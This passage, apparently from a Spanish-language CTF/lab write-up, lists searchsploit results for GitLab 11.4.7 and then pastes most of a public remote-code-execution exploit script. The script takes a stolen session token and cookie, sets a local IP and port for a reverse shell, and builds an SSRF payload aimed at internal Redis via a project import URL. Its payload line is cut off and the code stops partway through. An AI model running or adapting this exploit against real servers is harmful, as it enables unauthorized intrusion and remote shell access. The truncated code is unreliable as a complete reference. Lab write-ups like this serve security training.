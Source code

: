 ```bash
Gitlab 11.4.7 - Remote Code Execution                                                               | ruby/webapps/49257.py
GitLab 11.4.7 - Remote Code Execution (Authenticated)                                               | ruby/webapps/49263.py
---------------------------------------------------------------------------------------------------- ---------------------------------
```
Vemos que tenemos un RCE sin Authenticated vamos a ver si podemos hacer uso del mismo:
```python
# Exploit Title: Gitlab 11.4.7 - Remote Code Execution
# Date: 14-12-2020
# Exploit Author: Fortunato Lodari fox [at] thebrain [dot] net, foxlox
# Vendor Homepage: https://about.gitlab.com/
# POC: https://liveoverflow.com/gitlab-11-4-7-remote-code-execution-real-world-ctf-2018/
# Tested On: Debian 10 + Apache/2.4.46 (Debian)
# Version: 11.4.7 community

import sys
import requests
import time
import random
import http.cookiejar
import os.path
from os import path

# Sign in GitLab 11.4.7  portal and get (using Burp or something other):
# authenticity_token
# authenticated cookies
# username
# specify localport and localip for reverse shell

username='paco' # Cambiar este valor
authenticity_token='Vjf0sSmklmkJexT5KAfn0FFHY9HK1jV3RPx7pNOs2R89AaK7P+3Z2cAmp2XrZJ8wWo3mA/Ji4HrBGCf1JQUtwA=='  # Cambiar este valor
cookie = '_gitlab_session=18f7804912c391d79524197f59ae77f1; sidebar_collapsed=false'  # Cambiar este valor
localport='443'  # Cambiar este valor
localip='10.10.14.5'  # Cambiar este valor


url = "http://10.10.10.200:5080"  # Cambiar este valor
proxies = { "http": "http://localhost:8080" }


def deb(str):
    print("Debug => "+str)

def create_payload(authenticity_token,prgname,namespace_id,localip,localport,username):
    return {'utf8':'✓','authenticity_token':authenticity_token,'project[ci_cd_only]':'false','project[name]':prgname,'project[namespace_id]':namespace_id,'project[path]':prgname,'project[description]':prgname,'project[visibility_level]':'20','':'project[initialize_with_readme]','project[import_url]':'git://[0:0:0:0:0:ffff:127.0.0.1]:6379>

import string
def random_string(length):
    return ''.join(random.choice(string.ascii_letters) for m in range(length))

def init(username,cookie,authenticity_token,localport,localip):
    from bs4 import BeautifulSoup
    import re
    import urllib.parse
    deb("Token: "+authenticity_token)
    deb("Cookie: "+cookie)
```